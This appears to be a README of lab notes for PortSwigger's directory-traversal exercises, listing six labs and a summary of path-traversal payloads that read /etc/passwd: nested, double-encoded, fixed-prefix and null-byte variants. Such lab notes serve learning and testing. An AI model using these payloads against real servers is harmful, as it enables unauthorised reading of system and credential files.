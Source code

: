 # [Directory traversal](https://portswigger.net/web-security/file-path-traversal)

## Labs

- apprentice:
  - [1. File path traversal, simple case](./lab/1.%20File%20path%20traversal%2C%20simple%20case.md)
- practitioner:
  - [2. File path traversal, traversal sequences blocked with absolute path bypass](./lab/2.%20File%20path%20traversal%2C%20traversal%20sequences%20blocked%20with%20absolute%20path%20bypass.md)
  - [3. File path traversal, traversal sequences stripped non-recursively](./lab/3.%20File%20path%20traversal%2C%20traversal%20sequences%20stripped%20non-recursively.md)
  - [4. File path traversal, traversal sequences stripped with superfluous URL-decode](./lab/4.%20File%20path%20traversal%2C%20traversal%20sequences%20stripped%20with%20superfluous%20URL-decode.md)
  - [5. File path traversal, validation of start of path](./lab/5.%20File%20path%20traversal%2C%20validation%20of%20start%20of%20path.md)
  - [6. File path traversal, validation of file extension with null byte bypass](./lab/6.%20File%20path%20traversal%2C%20validation%20of%20file%20extension%20with%20null%20byte%20bypass.md)

## Summary

payloads:

- simple case:

  ```path
  ../../../../../../../../../../../../../etc/passwd
  ```

- absolute path:

  ```path
  /etc/passwd
  ```

- ?:

  ```path
  ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd 
  ```

- double encoding:

  ```path
  %25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66etc/passwd
  ```

- fixed first path:

  ```path
  /var/www/images/../../../../../../../../etc/passwd
  ```

- null byte:

  ```path
  ../../../../../../../../../../../../../../../../../../../etc/passwd%00.png
  ```
